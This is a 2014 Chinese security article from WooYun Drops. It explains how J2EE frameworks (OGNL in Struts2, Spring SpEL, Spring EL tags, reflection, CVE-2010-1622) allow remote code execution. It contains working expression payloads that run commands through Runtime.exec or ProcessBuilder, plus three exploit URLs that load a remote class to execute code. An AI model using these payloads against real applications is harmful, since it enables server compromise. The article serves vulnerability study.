





# J2EE 远程代码执行那些事儿(框架层面)

2014/02/11 17:14 | [Nebula](http://drops.wooyun.org/author/Nebula "由 Nebula 发布") | [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章"), [运维安全](http://drops.wooyun.org/category/%e8%bf%90%e7%bb%b4%e5%ae%89%e5%85%a8 "查看 运维安全 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 背景

* * *

在 J2EE 远程代码执行中,大部分的代码执行情况的本质是,能够从外部去直接控制 Java 对象(其他语言暂不讨论,其实也差不多),控制 Java 对象大致包括几种情况:直接 new 对象;调用对象的方法(包括静态方法);访问对象的属性(赋值)等 

那么一些 J2EE 框架在设计之中,如果某些功能允许以上操作,可能出现的远程代码执行情况。

## 0x01 OGNL

* * *

参考：[`drops.wooyun.org/papers/340`](http://drops.wooyun.org/papers/340)

get 方式，调用对象的静态方法执行命令： 

```
...
OgnlContext context = new OgnlContext();
Ognl.getValue("@java.lang.Runtime@getRuntime().exec('calc')",context,context.getRoot());
... 
```



set 方式，new 一个对象调用方法执行命令： 

```
...
OgnlContext context = new OgnlContext();
Ognl.setValue(new java.lang.ProcessBuilder((new java.lang.String[] {"calc" })).start(), context,context.getRoot());
... 
```

那么我们在使用 OGNL 实现某些 J2EE 框架功能或者机制中，如果 getValue 或 setValue 函数是允许外部参数**直接完整内容**传入的，那肯定是很危险的！！！ 

比如：webWork 及 Struts2 框架（其实真是不想说，Struts2 简直就是在拖 Java 安全水平的后腿。它所有 OGNL 远程执行代码的漏洞的形成，可以用一句话简单概括：**在使用 OGNL 实现框架某些功能或机制时，允许外部参数直接传入 OGNL 表达式或安全限制被饶过等**） 

## 0x02 在 spring 框架中也有类似 OGNL 的 Spel 表达式

* * *

### 1.调用对象的静态方法执行命令: 

```
...
org.springframework.expression.Expression exp=parser.parseExpression("T(java.lang.Runtime).getRuntime().exec('calc')");
... 
```



### 2.new 一个对象调用方法执行命令: 

```
...
org.springframework.expression.Expression exp=parser.parseExpression("new java.lang.ProcessBuilder((new java.lang.String[]{'calc'})).start()");
... 
```



但 spring 在安全方面应该不会像 struts2 一样这么不负责任（不过，现在稍微好点了！），它有没有类似的安全漏洞，有兴趣的可以去找找 ^-^ 

## 0x03 spring 标签实现中的 el 表达式注入

* * *

例如，类似的代码场景： 

```
...
el: <spring:message text="${param.el}"></spring:message>
... 
```

之前是个信息泄露漏洞（路径及 jar 等信息）： 



前段时间老外弄出了远程命令执行,部分 exp（网上都有，有兴趣自己找试一下。能否执行代码和 web 容器有很大关系，最好选老外一样的 Glassfish 或者 resin 某些版本用反射技巧实现执行代码）:

```
http://127.0.0.1:8080/spring/login.jsp?el=${pageContext.request.getSession().setAttribute("exp","".getClass().forName("java.util.ArrayList").newInstance())} 
```

```
http://127.0.0.1:8080/spring/login.jsp?el=${pageContext.request.getSession().getAttribute("exp").add(pageContext.getServletContext().getResource("/").toURI().create("http://127.0.0.1:8080/spring/").toURL())} 
```

```
http://127.0.0.1:8080/spring/login.jsp?el=${pageContext.getClass().getClassLoader().getParent().newInstance(pageContext.request.getSession().getAttribute("exp").toArray(pageContext.getClass().getClassLoader().getParent().getURLs())).loadClass("exp").newInstance()} 
```

原理简单描述：远程加载一个 exp.class,在构造器中执行命令（利用对象初始化执行代码）.(因为其他 web 服务器对象方法调用被限制，所以执行恶意代码肯定会有问题) 

**这个漏洞重要的是学习它的利用技巧！**实际危害其实不大！ 

## 0x04 反射机制实现功能时，动态方法调用

* * *

参考：[`zone.wooyun.org/content/6971`](http://zone.wooyun.org/content/6971)

其实，这篇文章主要给出的是**反射机制使用不当造成的方法越权访问**漏洞类型场景，而不是 struts2 这个漏洞本身，可能大家都**怀恋**之前一系列 struts2 轻松 getshell 的 exp 了！ 

简化后的伪代码: 

```
... 
Class clazz = 对象.getClass(); 
Method m = clazz.getDeclaredMethod("有实际危害的方法"); 
m.invoke(对象);   
... 
```

原理简单描述：本质其实很简单，getDeclaredMethod 的函数如果允许外部参数输入，就可以直接调用方法了，也就是执行代码，只是危害决定于调用的方法的实际 power！ 

## 0x05 spring class.classLoader.URLs[0]对象属性赋值

* * *

cve-2010-1622 这是我最喜欢的一个漏洞利用技巧：



这个利用有点绕，其实如果看得懂 Java 其实也很简单！（大家常说，**喜欢熬夜的 coder 不是好员工**，睡觉了！） 

以前看了很多篇漏洞分析文章，其中这篇不错（说得算比较清晰），推荐它： 

[`www.iteye.com/topic/1123382`](http://www.iteye.com/topic/1123382)

另外，其实我个人觉得，这个漏洞的其他利用的实际危害要超过执行命令方式，比如：拒绝服务等 

如果把你想像力再上升一个层面:在**任意场景**中只要能够控制 Java 对象,理论上它就能执行代码(至于是否能够被有效利用是另外一回事)。其实说得再执白点，写底层代码的程序员知不知道这些问题可能导致安全漏洞！ 

版权声明：未经授权禁止转载 [Nebula](http://drops.wooyun.org/author/Nebula "由 Nebula 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：碎银子打赏，作者好攒钱娶媳妇：


### 相关日志

*   [OGNL 设计及使用不当造成的远程代码执行漏洞](http://drops.wooyun.org/papers/340)
*   [J2EE MVC 模式框架中,表单数据绑定功能不安全实现在 Tomcat 下造成的 DoS 及 RCE](http://drops.wooyun.org/papers/1395)
*   [闲扯下午引爆乌云社区“盗窃”乌云币事件](http://drops.wooyun.org/papers/382)
*   [关于 OpenSSL“心脏出血”漏洞的分析](http://drops.wooyun.org/papers/1381)
*   [NTP 反射型 DDos 攻击 FAQ/补遗](http://drops.wooyun.org/papers/955)
*   [CDN 流量放大攻击思路](http://drops.wooyun.org/papers/679)